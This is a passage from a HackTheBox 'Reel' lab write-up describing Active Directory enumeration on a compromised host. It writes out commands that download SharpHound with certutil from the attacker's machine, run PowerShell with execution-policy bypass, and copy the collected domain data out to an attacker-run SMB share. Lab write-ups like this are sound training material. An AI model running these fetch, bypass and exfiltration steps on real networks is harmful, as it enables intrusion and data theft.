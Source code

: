 ```bash
python3 -m http.server 80
```

And download it from the target using:

```cmd
certutil -urlcache -f http://10.10.14.52/SharpHound.ps1 sharp.ps1
```

Then, I enter a powershell session, load the module and invoke the scan:

```cmd
powershell -exec bypass
. .\sharp.ps1
Invoke-BloodHound -CollectionMethod All -Domain HTB.local 
```

This produces a zip archive in our working directory:

![zip-39](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Reel/img/zip-39.png)

To transfer this archive over to my Kali, I setup an smb server with:

```bash
impacket-smbserver -smb2support -username htb -password htb reel .
```

Then I connect to the SMB server from the target and copy over the file:

```cmd
net use \\10.10.14.52\reel /u:htb htb
copy 20230922084319_BloodHound.zip \\10.10.14.52\reel
```

After that, I transfer the archive over to my Ubuntu VM, and import it to the BloodHound visualizer by clicking on the `Upload Data` button and selecting the zip archive. This loads the data, and now we can visualize it in a graph:
